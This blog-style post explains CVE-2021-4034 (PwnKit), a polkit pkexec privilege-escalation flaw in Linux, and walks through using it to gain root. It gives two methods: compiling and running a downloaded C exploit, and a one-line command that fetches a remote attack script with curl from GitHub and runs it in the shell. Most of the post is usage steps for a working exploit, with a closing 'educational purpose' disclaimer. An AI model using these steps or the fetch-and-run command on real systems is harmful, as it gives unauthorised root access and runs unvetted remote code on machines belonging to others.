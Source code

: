 # C implementation of CVE-2021-4034
On January 25, 2022, Bharat Jogi, from Qualys CyberSecurity research, posted a blog which talked about a major bug found in almost all Linux distros. The blog is very technical in nature. Here, I will talk about its implications and what it is. You can read the original blog [here](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

The vulnerability is categorised as privilege escalation, and it very clearly sticks to that definition. In very simple terms, if you have access to a Linux terminal at some user level, this bug will allow you to get root access without anything more than that.

---

## 1. How it works?

Polkit, aka, Policykit is a system used in Linux operating system to allow communication between privileged and non-privileged processes. In the ideal use case, it will have to access both user level as well as root level processes, and provide some kind of bridge between the processes. The root level processes were suppose to be kept out of reach of the non-root processes, as per the way Linux works.

This vulnerability was able to use Polkit to execute arbitrary commands with root permission, without initially possessing root permissions. The original exploit is a C program which can be found [here](https://github.com/NirmalScaria/cybersecurity/tree/main/CVE-2021-4034)

---

## 2. How to use it?


There are two ways. The easy way, and the super easy way.

---

### A. The easy way

The easy way uses the below C code, compiles it, and runs it in order to get root access.

![Screenshot of C exploit](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qlcct1hvym18qwqlo4tz.png)

To use this way, you need the C file on your local machine. Download it from [here](https://github.com/NirmalScaria/cybersecurity/tree/main/CVE-2021-4034) and open terminal in the directory which contain the exploit.c file.

If you simply run `id` you should be able to see which user you are logged in as. 

```
$ id
```
Now compile the exploit file using gcc and save the out file.
```
$ gcc exploit.c -o exploit
```
Now simply run the saved out file and thats all! You should be having a root terminal now.
```
$ ./exploit
```
To verify, you could try running `id` again and see that you have root now.
```
# id
```
Also, notice the **`$`** prompt changed to a **`#`** prompt, which indicates a root terminal. You can exit back to the normal user terminal using `exit` command.
```
# exit
```
---
### B. The super-easy way

This method uses a bash script and you don't even need any file on your local machine. Simply copy and paste the command to terminal and it works!

![Screenshot using PKWNER](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/rf1412z7t5f5w0vwdhih.png)

In this, the PKWNER bash script created by Kim Schulz will be getting used. Our terminal command will get the script from GitHub using `curl` and pipe the fetched code to bash. That results in getting root terminal.

Copy and paste this command to your terminal.
```
$ source <(curl -s https://raw.githubusercontent.com/kimusan/pkwner/main/pkwner.sh))
```

This will execute the PKWNER bash script and give us the terminal with root access.

---

This is probably the easiest and most severe privilege escalation attack ever found in a major operating system. And it has been reported to be successfully possible on almost every Linux distro.

---

**Please be noted that this is purely for educational purpose and make sure you have sufficient permissions before trying it on any machine not owned by you.**
